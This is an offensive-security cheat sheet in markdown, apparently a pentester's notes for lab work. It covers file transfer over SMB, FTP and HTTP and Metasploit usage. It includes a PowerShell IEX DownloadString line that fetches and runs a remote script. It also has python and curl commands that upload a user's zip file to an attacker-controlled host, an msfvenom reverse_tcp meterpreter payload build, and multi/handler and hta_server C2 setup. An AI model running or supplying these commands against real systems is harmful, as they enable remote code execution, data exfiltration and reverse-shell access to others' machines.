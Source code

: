 ## SMB
```bash
impacket-smbserver work ./work -smb2support

copy  \\192.168.\test.zip
xcopy Win32\* \\FILE04\c$\Windows\Temp\ /s /e
```
## FTP
```bash
# get
prompt
mget *

wget -m ftp://ftp:ftp@192.168.166.114/*

# passive mode
passive

# binary mode
bin
# text
ascii

# upload folder
/var/ftp/pub/
```
# HTTP
https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1
```bash
#powershell
wget https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.37/PSUpload.ps1');Invoke-FileUpload -Uri http://10.10.14.37/upload -File 

# linux
python3 -c "import requests;requests.post(\"http://10.10.14.68:8000/upload\",files={\"files\":open(\"/home/lnorgaard/RT30000.zip\",\"rb\")})"
curl -X POST http://10.10.14.68:8000/upload -F 'files=@/home/lnorgaard/RT30000.zip'
```


# Tips
## list
```bash
for ip in $(seq 1 254); do echo 192.168.50.$ip; done > ips
```

## Metasploit
```bash
# hundler
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT=1234 -f exe -o shell.exe
## to base64 
base64 -w0 shell.exe 
# start handler
use multi/handler
## htm c2
use exploit/windows/misc/hta_server
# sessions
sessions -l
```